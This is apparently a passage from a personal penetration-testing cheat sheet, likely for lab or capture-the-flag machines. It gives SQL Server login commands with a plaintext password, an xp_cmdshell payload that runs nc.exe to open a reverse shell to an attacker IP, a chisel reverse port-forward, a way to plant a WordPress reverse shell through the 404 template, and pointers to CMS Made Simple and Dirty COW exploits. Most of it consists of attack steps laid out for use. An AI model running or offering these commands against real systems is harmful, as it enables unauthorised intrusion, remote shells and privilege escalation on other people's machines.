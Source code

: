 ```
### Connect to SQL server with login
```
sqsh -S 192.168.2.x -U 192.168.2.x\\user_name -P this1smyPassword

```

## Exploits- Specific Scenarios

### CMS Made Simple 2.2.5 Authenticated Remote Code Execution
```
# Enumerate the directories
dirb http://192.168.56.126/   -> make sure to include the directed page e.g /cmsms/ as URL
Visit and follow
https://www.exploit-db.com/exploits/44976
- NOTE! When uploading file to CMS copy to .php file type in the upload folder
```

### from xp_cmdshell to shell
```
DOWNLOAD nc.exe from and upload to directory to use
https://packetstormsecurity.com/files/download/31140/nc.exe

xp_cmdshell 'PAYLOAD';
\go

PAYLOAD = 'C:\inetpub\wwwroot\nc.exe -e cmd.exe 10.8.0.x 443'
```


### IIS FTP file upload exploit
```
https://infinitelogins.com/2020/01/20/hack-the-box-write-up-devel-without-metasploit/
```

### Install chisel and use to port forward
```
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_386.gz
gzip -d chisel_1.9.1_linux_386.gz

Install on vuln machine:
Use scp with an SSH server -
scp -i groundfloor_user_sshkey chisel_1.9.1_linux_386 groundfloor@192.168.2.105:/home/groundfloor/

start server on kali machine:
chmod 777 first
./chisel_1.9.1_linux_386 server --reverse --port 3333

start server on target machine
/chisel_1.9.1_linux_386 client 10.8.0.11:3333 R:80:127.0.0.1:80

Connect by entering localhost into browser on kali
```

### Wordpress non public exploit
```
if able to login to the admin panel
go to appearance and select 404.php, replace content with reverse shell payload, setup listener, go to nonexisting page
plugin shell upload
https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell
```

### Dirty cow
```
Go to exploit website: https://dirtycow.ninja/
Select the exploit required, e.g. dirty.c (https://github.com/FireFart/dirtycow/blob/master/dirty.c)